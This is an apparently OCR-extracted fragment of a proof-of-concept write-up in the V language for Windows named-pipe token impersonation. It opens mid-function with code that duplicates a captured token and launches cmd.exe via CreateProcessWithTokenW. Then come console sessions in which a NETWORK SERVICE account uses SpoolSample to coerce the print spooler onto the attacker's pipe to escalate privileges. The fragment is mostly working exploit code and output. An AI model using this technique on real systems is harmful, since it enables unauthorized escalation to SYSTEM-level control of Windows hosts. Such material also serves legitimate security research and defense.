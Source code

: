 ```c
    mut h_system_token := &char(0)
    C.DuplicateTokenEx(h_token, 0xF01FF, voidptr(0), 2, 1, &h_system_token)
    println("  h_system_token: ${h_system_token}")

    process_information := &PROCESS_INFORMATION{}
    startup_info := &STARTUPINFO{}
    cmdline := r"C:\Windows\System32\cmd.exe"
    C.CreateProcessWithTokenW(h_system_token, 0, voidptr(0), cmdline.to_wide(), 0, voidptr(0), voidptr(0), voidptr(&startup_info), voidptr(&process_information))
}
```

```bash
> impersonate.exe
[*] Creating pipe: \\.\pipe\alex
  [!] Created pipe: 148
[*] Connecting to the pipe...

> echo 2 > \\localhost\pipe\alex

[*] Creating pipe: \\.\pipe\alex
  [!] Created pipe: 148
[*] Connecting to the pipe...
1
152
```

## POC

```bash
> whoami /user

USER INFORMATION
----------------

User Name                    SID
============================ ========
nt authority\network service S-1-5-20

> v.exe -cc tcc run impersonate.v
[*] Creating pipe: \\.\pipe\alex\pipe\spoolss
  [!] Created pipe: 184
[*] Connecting to the pipe...

```

```bash
> whoami /user

USER INFORMATION
----------------

User Name                    SID
============================ ========
nt authority\network service S-1-5-20

> SpoolSample.exe localhost localhost/pipe/alex
```
